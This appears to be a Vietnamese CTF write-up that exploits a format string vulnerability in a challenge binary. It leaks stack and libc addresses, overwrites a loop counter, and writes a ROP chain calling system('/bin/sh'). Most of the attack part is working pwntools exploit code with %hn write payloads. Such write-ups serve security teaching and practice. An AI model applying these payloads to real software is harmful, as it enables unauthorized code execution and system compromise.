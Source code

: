 # format string + ROPchain

kiểm tra các chế dộ bảo vệ cơ bản của chương trình :

![image](https://user-images.githubusercontent.com/93699926/234209816-cf1db707-3299-4edb-85ec-c3d671b56063.png)

cùng mở IDA để xem luồng thực thi của chương trình :

![image](https://user-images.githubusercontent.com/93699926/234210146-491ca0be-f894-49d5-baa9-02d660fd41b5.png)
 
 Luồng thực thi của chương trình đơn giản như sau 
 +) đầu tiên nó gọi hàm Localtime và gieo seed trùng với thời gian chương trình chạy để lấy giờ và in ra những message . đoạn này không đáng quan tâm tại nó chỉ là tính năng của chương trình và không có lỗi 
 +) tiếp dó nó cho ta nhập 14 ksy tự vô format được khai báo tới tận 40bytes trước đó =>> no BOF
 +) và sau đó nó lại in biến format ra cho ta mà không có bất kỳ format specifier nào =>> fmt vuln
 
 
 # Ý tưởng khai thác
 ta sẽ sử dụng lỗi fmt này để tạo ROPchain tại địa chỉ trả về của hàm main . nhưng vấn đề là ta chỉ có thể sử dụng lỗi format string này 3 lần quá ít và không thể làm gì được .
 vậy nếu ta thay đổi gia trị của của biến i thành một giá tị âm vô cùng nào đó thì ta sẽ có thể sử dụng fmt một cách thoải mái :
 ta hãy cùng kiểm tra chương trình qua GDB, đặt lệnh b* <ngay ở địa chỉ của hàm printf khi nó in ra format của mình vừa nhập > và kiểm tra stack:
 
![image](https://user-images.githubusercontent.com/93699926/234217426-24404091-1bfa-4fce-b4b6-114e7d064184.png)

để ý địa chỉ được đặt trong ô vuông đỏ , đó chính là địa chỉ của i (ngay tại địa chỉ rsp+8) và vì biến i được khai báo là int i nên nó chỉ có 4 byte,vậy nếu ta muốn thay đổi giá trị của i thành số âm thì ta chỉ cần thay đổi byte lớn nhất cảu i thành 0xff là được
 VD: i = 0x00000001 =>> 0xff000001= -16777215
 
 vậy làm vậy bằng cách nào : để ý tại địa chỉ 0x007ffc5902ab08 và 0x007ffc5902ab20 ta có một giá trị stack đang trỏ tơi một giá trị stack khác
 Vậy ta sẽ sử dụng địa chỉ 0x007ffc5902ab20 với %28 để có thể ghi đè giá trị mà nó tỏ tới thành giá trị của rsp+8 và ta sẽ sử dụng chính địa chỉ 0x007ffc5902ab20 với %55 lúc đó dang chứa địa chỉ rsp+8 và thay đổi giá trị của i thành giá trị mà ta mong muốn
 (chú ý: 0x007ffc5902ab20 là giá trị trên stack tại %28 đang trỏ tới một giá tị stack khác và còn 0x007ffc5902ab20 tương ứng với %55 lúc sau là địa chỉ thât trên stack đang chứa địa chỉ của rsp+8 đẫ được ta chỉnh sửa )
 các bạn cũng có thể sử dụng 0x007ffc5902ab08 vơi %25 tương ứng nhưng khi tạo ROPchain hãy dùng %28 đề còn có chỗ mà tạo ROPchain 
 
 ```python
 '''
leak stack-> tinh duoc stack base (tại lần chạy đó)-> tinh duoc dia chi cua i (stack base=leak -0x1e748)
viet i len stack vaf thay doi no (i=stackbase +0x1e5c8)
'''
###### stage 1: leak stack###############
payload=b'%25$p'
p.sendlineafter(b'Professional): ',payload)
p.recvuntil(b" You: ")
leak=int(p.recv(14),16)
stack=leak-0x1e748
i_address=stack+0x1e5c8
saved_rip=i_address+0x70
log.info('[+]leak:'+hex(leak))
log.info('[+]stack:'+hex(stack))
log.info('[+]i addess:'+hex(i_address))
log.info('[+]saved rip:'+hex(saved_rip))

###### stage2 : over write i address#####
payload=f'%{(i_address&0xffff)+2}c%25$hn'.encode()
p.sendafter(b'Professional): ',payload)
payload=f'%{0xffff}c%55$hn'.encode()
p.sendlineafter(b'Professional): ',payload)
 ```
 
 vì stack sẽ thay đổi sau mỗi lần chạy các giá trị địa chỉ stack cũng vậy , nhưng vì offset không thay đổi nên sau khi ta leak được một giá trị stack thì ta có thể tính được các địa chỉ khác mà ta cần(trừ địa chỉ stack base vì lý do gì đó nhưng cứ tính stack base ở lần chạy trên máy rồi dúng stack base đó tính các giá trị khác thì vẫn đúng)
 
 kiểm tra stack ta thấy như sau :
 
 ![image](https://user-images.githubusercontent.com/93699926/234217987-4a3e8834-baa9-4d42-82bc-923b96e37589.png)
 
  ta đã thành công thay đổi giá trị của i thành 0xffff0003=-65533 với giá trị này thì có mà tạo được 10 cái ROPchain .ok moving on
  
  để tạo ROPchain thì ta sẽ cần kiếm các gadget phù hợp để ta sẽ lấy nó ra từ chính file libc (lưu ý là bài này sử dụng file libc.so.6) có sẵn trên máy , mình chạy thử lần đầu trên sever may mắn được luôn nên không phải đi kiếm libc nữa 
  
  Để mà sử dụng các gadget của file libc thì ta cần leak được địac hcỉ libc và sau đó tính base của nó , dùng ropper --f libc.6.so để kiếm offset của các gadget cần tìm (rồi cộng với libc base thì sẽ có thể sử dụng gadget đó ).ok script như sau :
  ```python
  ########stage3 leak libc###
payload=b'%21$p'
p.sendlineafter(b'Professional): ',payload)
p.recvuntil(b" You: ",drop=True)
p.recvuntil(b" You: ")
leak2=int(p.recv(14),16)
libc.address=leak2-0x29d90
log.info('[+]leak2:'+hex(leak2))
log.info('[+]libc base:'+hex(libc.address))
log.info('[+]/bin/sh:'+hex(next(libc.search(b'/bin/sh'))))
log.info('[+]system:'+hex(libc.sym['system']))
pop_rdi=libc.address+0x000000000002a3e5
pop_rsi=libc.address+0x000000000002be51
bin_sh=next(libc.search(b'/bin/sh'))
ret=libc.address+0x0000000000029cd6
  ```
 tiếp theo là ghi các gadget lần lượt bắt đầu từ saved rip của của main đến các địa chỉ trên stack kế sau nó và set lại giá trị i thành 2 để chương trình return và ta sẽ có shell 
 
 Mình có viết mọt function để thuận tiệp cho việc tạo ROPchain như sau :
 ```python
 log.info('[+]ROPPING')
def ROP(address,gadget):
    payload=f'%{(address&0xffff)}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{gadget&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)

    byte=int('0x'+str(hex(gadget))[6:10],16)
    payload=f'%{(address&0xffff)+2}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{(byte)&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)

    byte=int(str(hex(gadget))[0:6],16)
    payload=f'%{(address&0xffff)+4}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{(byte)&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)
 ``` 

hmm nó cũng giống như lúc ghi giá trị của i thành 0xff000003 thôi nhé 
đã có func để tạo ROP rồi thì tạo rop thui 
```python
ROP(saved_rip,pop_rsi)
ROP(saved_rip+16,pop_rdi)
ROP(saved_rip+24,bin_sh)
ROP(saved_rip+32,ret)
ROP(saved_rip+40,libc.sym['system'])


#######return##############
payload=f'%{(i_address&0xffff)+2}c%28$hn'.encode()
p.sendafter(b'Professional): ',payload)
payload=f'%{0x2}c%55$n'.encode()
p.sendlineafter(b'Professional): ',payload)
## get shell
p.interactive() 
```
full script in p.py
chạy chương trình trên sever ta có shell và flag :

![image](https://user-images.githubusercontent.com/93699926/234221422-896355a8-d0e2-42e4-a524-8577e54095c3.png)



